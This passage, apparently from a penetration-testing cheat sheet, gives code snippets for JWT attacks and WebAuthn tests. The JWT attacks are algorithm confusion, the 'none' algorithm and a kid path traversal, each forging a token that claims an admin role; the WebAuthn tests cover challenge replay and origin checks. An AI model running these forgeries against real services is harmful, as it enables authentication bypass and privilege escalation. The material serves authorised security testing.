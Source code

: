 ```bash
https://auth.example.com/oauth/authorize?client_id=123&redirect_uri=https://client.com/callback&response_type=code
```

### **🆕 JWT Security Testing**

#### **JWT Attack Vectors**:
```python
# Algorithm confusion attack
import jwt

# Change algorithm from RS256 to HS256
header = {"typ": "JWT", "alg": "HS256"}
payload = {"sub": "admin", "role": "admin"}
# Use public key as HMAC secret
token = jwt.encode(payload, public_key, algorithm="HS256", headers=header)

# None algorithm attack
header = {"typ": "JWT", "alg": "none"}
payload = {"sub": "admin", "role": "admin"}
token = jwt.encode(payload, "", algorithm="none", headers=header)

# Key confusion attack
# Try using kid parameter to point to different keys
header = {"typ": "JWT", "alg": "RS256", "kid": "../../public.key"}
```

### **🆕 WebAuthn/FIDO2 Testing**:
```javascript
// Test for replay attacks
const credential = await navigator.credentials.create({
    publicKey: {
        challenge: oldChallenge, // Reuse old challenge
        rp: { name: "Example" },
        user: { id: new Uint8Array([1,2,3]), name: "user", displayName: "User" },
        pubKeyCredParams: [{ alg: -7, type: "public-key" }]
    }
});

// Test for origin validation bypass
const credential = await navigator.credentials.get({
    publicKey: {
        challenge: challenge,
        allowCredentials: [{
            type: "public-key",
            id: credentialId
        }]
    }
});
```

---